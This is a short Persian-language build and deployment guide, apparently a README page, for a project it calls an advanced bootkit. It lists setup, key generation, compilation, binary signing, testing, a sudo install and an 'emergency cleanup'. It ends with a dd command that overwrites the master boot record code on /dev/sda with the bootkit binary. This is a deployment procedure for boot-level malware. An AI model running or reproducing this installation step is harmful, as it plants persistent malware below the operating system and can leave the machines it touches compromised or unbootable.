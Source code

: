4. **پاک‌سازی**:
 ```bash
 make clean
 ```

-----------------------------------------------------

### دستورات اجرای نهایی پروژه

1. **راه‌اندازی محیط**:
```bash
./scripts/setup_env.sh
```

2. **تولید کلیدهای امنیتی**:
```bash
./scripts/gen_keys.sh
```

3. **ساخت سیستم**:
```bash
make all
```

4. **امضای دیجیتال باینری‌ها**:
```bash
./scripts/sign_binaries.sh
```

5. **تست کامل**:
```bash
./test/integration/full_test.sh
```

6. **استقرار عملیاتی**:
```bash
sudo bin/install.sh
```

7. **پاک‌سازی اضطراری**:
```bash
sudo scripts/cleanup.sh
```
------------------------------------------------------

### دستورات استقرار و فعال‌سازی

1. **کامپایل سیستم**:
```bash
make all
```

2. **امضای باینری‌ها**:
```bash
./scripts/sign_binaries.sh
```

3. **نصب بوت‌کیت**:
```bash
sudo dd if=build/bootkit/advanced_bootkit.bin of=/dev/sda bs=446 count=1 conv=notrunc
```
